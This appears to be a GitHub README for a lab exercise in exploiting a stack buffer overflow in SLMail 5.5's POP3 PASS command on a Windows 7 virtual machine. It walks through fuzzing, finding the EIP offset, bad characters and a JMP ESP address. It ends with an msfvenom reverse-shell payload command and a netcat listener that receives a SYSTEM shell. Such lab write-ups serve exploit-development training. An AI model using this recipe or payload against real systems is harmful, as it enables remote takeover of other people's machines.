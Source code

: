 # Remote-buffer-overflow

Windows exploitation using Remote buffer overflow vulnerability of Seatle Lab mail 5.5 
=====================================================================================

Remote buffer overflow on POP3 'PASS'of Seatle Lab mail 5.5
Windows x86 vulnerability (https://www.exploit-db.com/exploits/638)

Tools/ configuration used
-------------------------
Windows 7 32 bit
Kali linux 2020
VMware
Seatle Lab mail 5.5 (vulnerable software)(https://slmail.software.informer.com/5.5/)
Immunity debugger (python)  	(https://www.immunityinc.com/products/debugger/index.html)
mona.py				(https://github.com/corelan/mona)


------------------------------------------------
On windows 7:

Install Immuinity debugger(with python)
Copy mona.py to pyCommands folder located at Immunity debugger installation directory 
Install Seatle Lab mail 5.5 with default configuration

To ignore unwanted interuption:
	Disable firewall protection
	Stop automatic update
	Disconnect internet (set Host-only network connection)

Note Windows 7 ip=> (eg. 192.168.220.132)
port => 110

On Linux PC:

Six python script (intermediate) files used to create final exploitation python file
a0.py		to identify buffer overflow filled with 'A's
a1.py		to fill with pattern of characters to identify EIP location and buffer offset size
a2.py		to ensure to control EIP with 'B's
bad1.py		to Identify bad characters(01) with all possible values (to ignore in shellcode) 
bad2.py		to Identify bad characters(02) with all possible values (to ignore in shellcode) 
bad3.py		to Identify bad characters(03) with all possible values (to ignore in shellcode) 
(bad... if necessary)

xploit.py	Final exploitation script

--------------------------------------------------
On windows PC

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail 

-------------------------------------------------
Create an array of buffer with 'A's

==> run a0.py with arguments (Target IP and PORT)
(Eg. python a0.py 192.168.220.132 110)

crashed @ 2900

EIP overwritten with AAAA (41414141) 	(observe on Immunity Debugger)

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail 

--------------------------------------------------
Created unique pattern with a1.py to identify the location of EIP

>>>locate pattern_create
copy & paste ruby script with length of 2700
(/usr/share/metasploit-framsework/tools/exploit/pattern_create.rb -l 2700)

==> run a1.py with arguments (Target IP and PORT)

EIP overwritten with value		(observe on Immunity Debugger)
locate and copy EIP value on DBG (eg. 39694438)

>>>locate pattern_offset
copy & paste ruby script with EIP value
(/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438)

Note the offset exact match value (eg. 2606)

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail 

--------------------------------------------------
 
Create a buffer pattern to ensure the EIP control
( 2606*A + 4*B + 90*C)
"A"s     EIP      Payload(shellcode)

==> run a2.py  with arguments (Target IP and PORT)

EIP overwritten with BBBB (42424242) 	(observe on Immunity Debugger)
Note that we can control the EIP

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail  

----------------------------------------------------

Identify bad characters (01)
by sending all possible characters as payload part (skip \x00 -->common bad character)

==> run bad1.py with arguments (Target IP and PORT)

Identify firts missed bad character to skip in shellcode(eg. \x0a ) 

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail  

------------------------------------------------------

Identify bad characters (02)
by sending all possible characters except identified character (\x00 & \x0a) as payload part

==> run bad2.py with arguments (Target IP and PORT)

Identify next missed bad character to skip in shellcode(eg. \x0d ) 

start Seatle Lab mail
start Immunity Debugger 
attach Seatle Lab mail  

------------------------------------------------------

Identify bad characters (03)
by sending all possible characters ecxept identified characters (\x00,\x0a & \x0d ) as payload part

==> run bad3.py with arguments (Target IP and PORT)

Identify next missed bad character to skip in shellcode(eg. no any character) 

start Seatle Lab mail 
(run exploit.py without Immunity DBG)

------------------------------------------------------

to create final exploitation script

get address of jmp ESP

>>>locate nasm_shell
copy & paste ruby script
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

	nasm> jmp esp
	note value to identify the address using mona script (eg. FFE4)

On immunity debugger run mona scripts
	
	!mona modules
		note the slmfc.ll file - false value with Rebase, safeSEH, ALSR & NXcompat

	!mona find -s "\xff\xe4" -m slmfc.dll (FFE4 copied from nasm shell)
		copy the address of one of the result
 
 ..........................

create shellcode using mfsvenom 	 

msfvenom -p windows/shell_reverse_tcp LHOST=<TLocal_ip_address> LPORT=<port> -f py -b '<bad Characters>' -e x86/shikata_ga_nai
(eg.
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.152.141 LPORT=443 -f py -b '\x00\x0a\x0d\' -e x86/shikata_ga_nai
)

create final overflow pattern 
	"A"s(offset size) + jmpESP (in little endian format) + nop sleds(\x90) + payload(shellcode)

EXPLOITAION:

open another terminal for netcat listener
==> nc -nlvp 443 
    (same port used in shellcode creation)

==> run exploit.py with arguments (Target IP and PORT)

DONE! GOT --> system reverse shell of target machine

References:
https://www.peerlyst.com/posts/hands-on-windows-exploit-development-stack-based-buffer-overflow-bof-chiheb-chebbi?trk=search_page_search_result
https://www.offensive-security.com/metasploit-unleashed/msfvenom/
http://sh3llc0d3r.com/exploit-development/
https://www.youtube.com/watch?v=OOkU7to0Ty4
https://stackoverflow.com/questions/5286117/incompatible-character-encodings-ascii-8bit-and-utf-8
